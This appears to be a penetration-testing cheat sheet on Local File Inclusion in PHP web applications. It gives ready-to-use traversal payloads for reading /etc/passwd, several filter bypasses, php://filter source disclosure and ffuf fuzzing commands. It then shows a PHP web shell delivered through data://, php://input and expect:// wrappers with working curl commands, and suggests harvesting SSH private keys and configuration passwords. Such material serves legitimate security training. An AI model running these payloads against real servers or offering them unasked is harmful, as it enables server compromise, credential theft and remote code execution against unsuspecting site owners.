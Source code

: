 ```yaml
---
layout: default
title: File Inclusion
permalink: /Web/file_disclosure/
---
```


# File Disclosure

## Local File Inclusion (LFI)

It is basically loading a file from a specified path. The most common place we usually find LFI within is templating engines.
Some of the functions used by different frameworks only read the content of the specified files, while others also execute the specified files. Furthermore, some of them allow specifying remote URLs, while others only work with files local to the back-end server. <br>
Two common readable files that are available on most back-end servers are `/etc/passwd` on Linux and `C:\Windows\boot.ini` on Windows. We can try to set these paths as a parameter. <br>
- In many occasions, web developers may append or prepend a string to the parameter. We can easily bypass this restriction by traversing directories using relative paths. To do so, we can add `../` before our file name. <br>
- On some occasions, our input may be appended after a different string. For example, it may be used with a prefix to get the full filename. In this case, if we try to traverse the directory with `../../../etc/passwd`, the final string would be `<prefix>_../../../etc/passwd`, which is invalid. We can prefix a `/` before our payload, and this should consider the prefix as a directory, and then we should bypass the filename and be able to traverse directories. This may not always work, as a directory named `<prefix>_/` may not exist.
- Another very common example is when an extension is appended to the parameter.

### Second-Order Attacks
A web application may allow us to download our avatar through a URL like (/profile/$username/avatar.png). If we craft a malicious LFI username (e.g. ../../../etc/passwd), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar. Or maybe we manage to poison our username during our registration.
<br>
The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.

## Basic Bypsasses

### Non-Recursive Path Traversal Filters
One of the most basic filters against LFI is a search and replace filter, where it simply deletes substrings of `../`. However, this filter is very insecure, as it is not recursively removing the `../` substring. For example, if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../`.

### Encoding
Some web filters may prevent input filters that include certain LFI-related characters, like a dot `.` or a slash `/` used for path traversals. However, some of these filters may be bypassed by URL encoding our input. Furthermore, we may also encode the encoded string once again to have a double encoded string, which may also bypass other types of filters.
*Note: For this to work we must URL encode all characters, including the dots. Some URL encoders may not encode dots as they are considered to be part of the URL scheme.*

### Approved Paths
Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. To find the approved path, we can examine the requests sent by the existing forms, and see what path they use for the normal web functionality. Furthermore, we can fuzz web directories under the same path, and try different ones until we get a match. To bypass this, we may use path traversal and start our payload with the approved path, and then use ../ to go back to the root directory and read the file we specify.

### Appended Extension
There are a couple of other techniques we may use, but they are obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4. However, it may still be beneficial to mention them, as some web applications may still be running on older servers, and these techniques may be the only bypasses possible.

#### Path Truncation
- In earlier versions of PHP, defined strings have a maximum length of 4096 characters. If a longer string is passed, it will simply be truncated.
- PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call `/etc/passwd`.
- PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g. `////etc/passwd` is the same as `/etc/passwd`). Similarly, a current directory shortcut `.` in the middle of the path would also be disregarded (e.g. `/etc/./passwd`). If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path.
  *Note: It is also important to note that we would also need to start the path with a non-existing directory for this technique to work: `?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]`.*
  Bash script for that: `echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`
  *Note: if we use this method, we should calculate the full length of the string to ensure only `.php` gets truncated and not our requested file at the end of the string `/etc/passwd`.*

#### Null Bytes
PHP versions before 5.5 were vulnerable to null byte injection, which means that adding a null byte (%00) at the end of the string would terminate the string and not consider anything after it (e.g. `/etc/passwd%00`).

## PHP Filters
If we identify an LFI vulnerability in PHP web applications, then we can utilize different PHP Wrappers to be able to extend our LFI exploitation, and even potentially reach remote code execution.

### PHP Filters
PHP Filters are a type of PHP wrappers, where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. The filter wrapper has several parameters, like `resource` and `read`. The filter that is useful for LFI attacks is the `convert.base64-encode` filter.

### Fuzzing for PHP Files
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
*Note: we should be scanning for all codes, including `301`, `302` and `403` pages.*

### Source Code Disclosure
```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
*Note: The `.php` extension is automatically appended to the end of the input string.*

## Remote Code Execution
One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.
- We may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password.
- We can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key `id_rsa` and use it to SSH into the system.
- There are ways to achieve remote code execution directly through vulnerable functions.

### Data Wrapper
However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations. 
<b>Checking:
We can include the PHP configuration file found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version.

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
Then:
```
echo '<base64_encoded_string>' | base64 -d | grep allow_url_include
```
Remote Code Execution:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
Then in the url bar:
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<base64_encoded_command>
```
Or use curl:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
### Input Wrapper
- We pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work.
- The input wrapper also depends on the `allow_url_include` setting, as mentioned previously.
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
*Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)*

### Expect Wrapper
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server.
<b>Checking is similar as previously:
```
echo '<base64_encoded_string>' | base64 -d | grep expect
```
We may find that a configuraion keyword is used to enable the except module. Then:
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
